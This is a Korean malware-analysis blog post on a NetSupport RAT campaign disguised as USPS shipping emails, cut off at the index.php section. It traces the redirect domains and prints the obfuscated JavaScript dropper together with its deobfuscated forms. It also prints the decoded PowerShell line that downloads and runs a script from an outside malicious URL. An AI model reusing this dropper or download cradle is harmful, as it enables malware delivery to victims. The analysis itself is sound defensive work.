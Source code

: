 +++
title = "USPS 위장 NETSUPPORT RAT 악성코드.pdf"
date = "2025-01-29T16:39:52+09:00"
author = "sayoon"
tags = ["악성코드분석"]
keywords = ["메일 위장", "악성코드"]
description = "USPS 패키지 배송 관련 메일로 위장한 악성코드"
showFullContent = false
readingTime = false
hideComments = false
+++

> **3줄 요약**
>
> 1. 실행 시 `winlogdate.exe` 파일 드롭
> 2. 레지스트리 수정으로 로그인 마다 실행
> 3. 통신 및 원격 접속으로 개인정보 탈취

### 분석 파일

- 파일: [link](https://www.malware-traffic-analysis.net/2022/12/28/index.html)

**_발퀄 및 건너짚기가 남발하는 문서임니당_**

<br>

## 1. 배포 경로

![email](image.png)

이 악성코드의 시작점은 이메일이다.  
아래 그림과 같이 운송업체 USPS를 위장한 메일을 보내 사용자가 외부 링크로 접속하도록 유도한다.

<br/>

## 2. 패킷 분석

사용자가 <kbd>Download Details</kbd>를 클릭하면 **lbbyqluzu.cracknight.ru**로 연결된다.  
이후 `302` 상태 코드를 받고 **patrickforeilly.com**으로 리다이렉트 된다

![packet](image-1.png)

위 사진을 보면 **patrickforeilly.com**에서 `application/zip` 타입의 콘텐츠를 요청하고 있다.  
해당 파일을 확인한 결과, 아래와 같이 `javascript`파일을 담고 있는 것을 확인 할 수 있다

![alt text](image-2.png)
![alt text](image-3.png)

<br/>

## 3. 파일 분석

### 1) `4043_PCM.js` 파일

`4043_PCM.js` 파일은 난독화 된 `js`파일로, `eval` 명령어를 확인할 수 있었다.
이를 치환하면 아래와 같은 파일을 얻을 수 있었다.

```none
//UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP = "sheLl"; YZqOsTxnMmpABJCF = new
ActiveXObject(oMKilXfTnLOHCUhAFBP+"."+ //IxqOgMKi "ApPlIcAtIon"); FkLgcBCiVTGsmxdvpeb = new
ActiveXObject("SCRiPtIng.filesystemobJECt"); if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:\\pROgRa"+ //IxqOgMKi
"mdAta\\mIcRosOft\\wINdoWs")) { //YhALZvBkfyGVcEPoHRNqIM YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c"+ //IxqOgMKi "
Power"+oMKilXfTnLOHCUhAFBP+" -nop -w hidden "+ //IxqOgMKi "-ep bypaSS -enC SQ"+ //IxqOgMKi "BFAFgAIAAoA"+
//IxqOgMKi "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb"+ //IxqOgMKi
"gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI"+ //IxqOgMKi "AaQBuAGcAKA"+ //IxqOgMKi "AiAGgAdAB0AHAA"+ //IxqOgMKi
"OgAvAC8"+ //IxqOgMKi "AMQBvAHQ"+ //IxqOgMKi "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA"+ //IxqOgMKi
"BlAHgALgBwAGgAcAAiACkA", "", "open", 0); } //kdbyVceRuXIHitqmTjngWxOZAG
```

위 코드를 보기 쉽게 풀면,

```js
UmExrsgJuDvLhVadkAWOTICPXF oMKilXfTnLOHCUhAFBP = "shell";
YZqOsTxnMmpABJCF = new ActiveXObject(“shell” + ".Application");
FkLgcBCiVTGsmxdvpeb = new ActiveXObject("scripting.filesystemobject");
if (FkLgcBCiVTGsmxdvpeb.FolderExists("C:\\pROgRa" + "mdAta\\mIcRosOft\\wINdoWs")) {
	YZqOsTxnMmpABJCF.ShellExecute("cmd", "/c Power" + sheLl + " -nop -w hidden -epbypass -enC SQ...", "", "open", 0);
}
```

난독화된 변수명을 다시 바꿔주면,

```javascript
if (
  ActiveXObject("scripting.filesystemobject").FolderExists(
    "C:ProgramData\\MicrosoftWindows"
  )
) {
  ActiveXObject("scripting.filesystemobject").ShellExecute(
    "cmd",
    "/c Powershell -nop -w hidden -ep bypass -enC ...",
    "open",
    0
  );
}
```

이는 `C:\ProgramData\\Microsoft\Windows` 경로가 존재한다면, `Powershell `을 실행하는 명령어이다.

- `-w hidden` 옵션으로 `Powershell` 이 백그라운드에서 실행되도록 하고,
- `-enC` 옵션으로 `base64` 로 인코딩 된 명령어를 실행하므로

마지막 인자를 확인하면 어떤 `Powershell` 명령을 실행하는지 알 수 있다.

마지막 인자는 아래와 같고

```none
SQ"+ //IxqOgMKi "BFAFgAIAAoA"+ //IxqOgMKi "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAb"+
//IxqOgMKi "gB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHI"+ //IxqOgMKi "AaQBuAGcAKA"+ //IxqOgMKi "AiAGgAdAB0AHAA"+
//IxqOgMKi "OgAvAC8"+ //IxqOgMKi "AMQBvAHQ"+ //IxqOgMKi "AYQBsAC4AYwBvAG0ALwBpAG4AZABlAHgALwBpAG4AZA"+ //IxqOgMKi
"BlAHgALgBwAGgAcAAiACkA
```

필요 없는 문자열 `//Ixq0gMKi`를 지우고 디코딩하면

```powershell
IEX(New-Object Net.Webclient).downloadstring("http://1otal.com/index/index.php")
```

라는 명령어가 나오는데, 이는 `http://1otal.com/index/index.php` 에서 스크립트를 다운 받아 실행하는 윈도우 powershell 명령어이다.

> 종합하자면, `4043_PCM.js` 파일은 난독화된 `javascript` 파일을 `eval`을 이용하여 실행하는데,  
> 특정 `url`에서 `php`를 다운받아 `powershell`로 실행하는 악성 스크립트이다.

<br/>

### 2) **index.php**
